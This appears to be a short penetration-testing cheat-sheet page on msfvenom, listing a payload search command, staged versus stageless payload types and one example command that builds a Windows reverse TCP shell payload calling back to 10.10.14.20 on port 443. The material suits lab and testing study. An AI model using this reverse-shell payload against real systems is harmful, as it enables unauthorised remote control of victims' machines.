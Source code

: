 # 🔫 Exploitation Frameworks

## MFSVenom

```bash
msfvenom --l all | grep <Payload>
```

### Types of payload

* **Staged** payloads
* **Stageless** payloads

{% embed url="https://netsec.ws/?p=331" %}

#### Payload example

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
